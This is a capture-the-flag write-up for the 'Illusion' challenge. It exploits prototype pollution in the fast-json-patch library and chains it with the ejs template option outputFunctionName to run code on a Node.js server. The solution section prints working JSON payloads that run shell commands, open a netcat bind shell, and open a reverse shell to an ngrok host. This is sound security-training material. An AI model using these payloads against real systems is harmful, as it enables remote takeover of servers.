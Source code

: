 ```yaml
---
description: JavaScript Prototype Injection
---
```


# Illusion

## Problem

Laura just found a website used for monitoring security mechanisms on Rhiza's state and is planning to hack into it to forge the status of these security services. After that she will deactivate these security resources without alerting government agents. Your goal is to get into the server to change the monitoring service behaviour.

{% file src="../../.gitbook/assets/illusion.tar.gz" caption="Illusion" %}

## Solution

First, let's analyse the source code.

Here, we see that for testing locally, we should use `admin:admin` as the basic authentication credentials.

```javascript
app.use(basicAuth({
    users: { "admin": process.env.SECRET || "admin" },
    challenge: true
}))
```

We come across an interesting functionality of the app. When POST-ing JSON to the `/change_status` endpoint, the [fast-json-patch](https://www.npmjs.com/package/fast-json-patch) package is used to modify the `services` object.

```javascript
const jsonpatch = require('fast-json-patch')

...

// API
app.post("/change_status", (req, res) => {

    let patch = []

    Object.entries(req.body).forEach(([service, status]) => {

        if (service === "status"){
            res.status(400).end("Cannot change all services status")
            return
        }

        patch.push({
            "op": "replace",
            "path": "/" + service,
            "value": status
        })
    });

    jsonpatch.applyPatch(services, patch)

    console.log(Object.values(services))
    if ("offline" in Object.values(services)){
        services.status = "offline"
    }

    res.json(services)
})
```

A quick search led me to this GitHub pull request: [ https://github.com/Starcounter-Jack/JSON-Patch/pull/262](%20https://github.com/Starcounter-Jack/JSON-Patch/pull/262). A prototype pollution vulnerability exists in `applyPatch()`.

It appears that the issue is not yet fixed, even in the latest version!

For instance, if we POST the following data:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/offline": "test",
}
```

Every object will now have the `offline` attribute. The following if statment will then evaluate to True, since the `Array` object will have an `offline` attribute as well.

```javascript
if ("offline" in Object.values(services)){
    services.status = "offline"
}
```

But we can't really do much with this... yet. When there is a prototype injection vulnerability in server-side code, it can usually lead to serious exploits like RCE.

In this case, we can achieve RCE through exploiting the `ejs` module, by leveraging the `constructor/prototype/outputFunctionName` option in the `ejs` rendering function. This is quite a well known exploit: [https://portswigger.net/daily-swig/prototype-pollution-bug-in-popular-node-js-library-leaves-web-apps-open-to-dos-remote-shell-attacks](https://portswigger.net/daily-swig/prototype-pollution-bug-in-popular-node-js-library-leaves-web-apps-open-to-dos-remote-shell-attacks)

For how to exploit it, here's a neat reference: [https://blog.p6.is/Real-World-JS-1/](https://blog.p6.is/Real-World-JS-1/)

We can see that `ejs` is used. It is a very popular library for templating in web applications.

```javascript
const ejs = require('ejs')

...

app.get("/", async (req, res) => {
    const html = await ejs.renderFile(__dirname + "/templates/index.ejs", {services})
    res.end(html)
})
```

Testing locally as a normal user first \(the actual challenge uses a guest user\), we can POST the following data to test that RCE exists:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/offline": "test",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('whoami >> src/static/style.css');x"
}
```

This executes `whoami >> src/static/style.css`. We can see that in the `style.css`, the output is indeed reflected.

![](../../.gitbook/assets/4f7c707532584a42a7f9976744fdfc56.png)

Then I ran the docker image. Note that we are provided with a `readflag` binary. We can run this binary and obtain the flag from the output.

Since we're a guest user, we don't have permissions to write the output to a readable file. We can try to use a bind shell instead. The following will execute `nc -lvp 4444 -e /bin/sh`, opening up a bind shell on port 4444. 

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('nc -lvp 4444 -e /bin/sh');x"
}
```

When we connect to the bind shell, we can then run the `readflag` binary.

![](../../.gitbook/assets/4a7887f7a3cf414983b2a57bfbf15f3c.png)

Time to connect to the real server!

![](../../.gitbook/assets/01258025ec1e4e4594f359bde6278b1d.png)

The bind shell didn't work, so we had to use a reverse shell instead.

First, I set up a `ngrok` TCP forwarder. Then, in our RCE payload, we can use the public endpoint given by `ngrok` to catch our reverse shell. To trigger a reverse shell, we would need to modify our RCE:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('nc 8.tcp.ngrok.io 17160 -e /bin/sh');x"
}
```

This should forward the reverse shell to our local machine, and we get the flag!

![](../../.gitbook/assets/c314f1e63edd4cb9acfb5204153a17b3.png)

